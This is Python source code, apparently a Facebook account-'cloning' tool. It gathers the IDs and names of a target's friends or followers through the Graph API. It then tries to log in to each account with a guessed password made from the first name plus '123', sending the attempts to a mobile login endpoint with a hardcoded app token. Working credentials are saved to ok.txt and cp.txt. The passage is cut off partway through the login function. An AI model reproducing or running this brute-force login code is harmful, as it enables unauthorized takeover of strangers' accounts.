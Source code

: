 		r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+token, headers=header)
		z = json.loads(r.text)
		for i in z["data"]:
			uid=i['id']
			na=i['name']
			nm=na.rsplit(" ")[0]
			id.append(uid+'|'+nm)
	elif select =="3":
		os.system("clear")
		print logo
		print("\t\033[1;93m  Clone From Followers\033[1;0m")
		print("\033[1;97m--------------------------------------------------")
		idt = raw_input("\033[1;97m[+]\033[1;93m Input ID/Username :\033[1;96m ")
		print("\033[1;97m--------------------------------------------------")
		os.system("clear")
		print logo
		try:
			r = requests.get("https://graph.facebook.com/"+idt+"?access_token="+token, headers=header)
			q = json.loads(r.text)
			print("[✓] Account Name : "+q["name"])
		except KeyError:
			print('\n[!] Error 404 . ID Link '+idt+' Donot Have Followers OR IS Not Valid')
			raw_input("\nPress Enter To Back ")
			crack()
		r = requests.get("https://graph.facebook.com/"+idt+"/subscribers?access_token="+token+"&limit=5000", headers=header)
		z = json.loads(r.text)
		for i in z["data"]:
			uid=i['id']
			na=i['name']
			nm=na.rsplit(" ")[0]
			id.append(uid+'|'+nm)
	   
	elif select =="0":
		menu()
	else:
		print ("[!] Please Select a Valid Option")
		bangla2()
	print("\033[1;97m[+]\033[1;97m Total IDs :\033[1;97m "+str(len(id)))
	print("\033[1;97m[+]\033[1;97m Plz wait clone account will be appear here\033[1;0m")
	print("\033[1;97m--------------------------------------------------")
	
	
        def main(arg):
		user=arg
		uid,name=user.split("|")
		try:
		    pass1=name+"123"
		    q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=vi_vn&password=" + pass1 + "&sdk=ios&generate_session_cookies=1&sig=15df5f3c8c37e0a620e8fa1fd1dd705c", headers=header).text
		    d=json.loads(q)
		    if 'www.facebook.com' in d['error_msg']:
		        print("\x1b[1;97m[\x1b[1;93mCheckPoint\x1b[1;97m]\x1b[1;97m "+uid+"\x1b[1;91m | \x1b[1;97m"+pass1+"\x1b[1;91m | \x1b[1;97m"+name)
		        cp=open("cp.txt","a")
		        cp.write(uid+" | "+pass1+"\n")
		        cp.close()
		        cps.append(uid)
		    else:
		    	if "access_token" in d:
		            print("\x1b[1;92m[Successfull] "+uid+" | "+pass1+" | "+name)
		            ok=open("ok.txt","a")
		            ok.write(uid+" | "+pass1+"\n")